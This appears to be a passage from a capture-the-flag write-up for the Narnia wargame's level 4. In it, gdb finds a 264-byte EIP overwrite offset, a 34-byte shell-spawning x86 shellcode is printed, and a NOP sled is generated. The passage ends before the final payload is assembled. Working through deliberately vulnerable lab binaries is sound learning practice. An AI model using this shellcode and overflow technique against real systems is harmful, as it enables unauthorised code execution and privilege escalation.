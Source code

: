 Okay, let's fire up gdb and start hacking :)

```ruby
(gdb) b *main+131
Breakpoint 1 at 0x8049219

(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Starting program: /narnia/narnia4 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

[Thread debugging using libthread_db enabled]

Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x08049219 in main ()
(gdb) si
0x41386941 in ?? ()
```

Breaking right before the main function returns, to make the program pop the last item on the stack. Now, after stepping one instruction with `si`, we see that that `EIP` is pointing to `0x41386941` which is `Ai8A`. This string is at offset 264. This means that after 264 bytes we can override EIP.

All we have left now, is to find a suitable shellcode, fill the first 264 bytes with nop codes and the shellcode and then locate the memory address of our injected string.

We will use the shellcode that was used for solving Narnia2. A 34 byte shellcode.
```ruby
\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80
```

Now, we will generate the nop sled.
```python
>>> print("\\x90"*(263-34))
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
```

Great, let's put it all together with four B's that will override EIP.
